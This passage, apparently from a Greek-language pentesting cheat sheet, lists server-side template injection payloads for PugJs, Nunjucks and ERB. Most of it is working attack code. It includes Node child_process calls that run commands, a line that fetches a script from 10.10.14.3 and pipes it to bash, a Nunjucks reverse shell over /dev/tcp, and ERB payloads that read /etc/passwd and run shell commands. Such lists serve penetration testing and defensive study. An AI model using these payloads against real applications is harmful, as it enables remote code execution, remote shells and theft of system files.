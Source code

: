 ### PugJs (NodeJS)

* `#{7*7} = 49`
* `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('touch /tmp/pwned.txt')}()}`
* `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.10.14.3:8001/s.sh | bash')}()}`

**Παράδειγμα απόδοσης πλευράς διακομιστή**
```javascript
var pugjs = require('pug');
home = pugjs.render(injected_page)
```
**Περισσότερες πληροφορίες**

* [https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/](https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/)

### NUNJUCKS (NodeJS) <a href="#nunjucks" id="nunjucks"></a>

* \{{7\*7\}} = 49
* \{{foo\}} = Χωρίς έξοδο
* \#{7\*7} = #{7\*7}
* \{{console.log(1)\}} = Σφάλμα
```javascript
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
{{range.constructor("return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.11/6767 0>&1\"')")()}}
```
**Περισσότερες πληροφορίες**

* [http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)

### ERB (Ruby)

* `{{7*7}} = {{7*7}}`
* `${7*7} = ${7*7}`
* `<%= 7*7 %> = 49`
* `<%= foobar %> = Σφάλμα`
```python
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```
**Περισσότερες πληροφορίες**
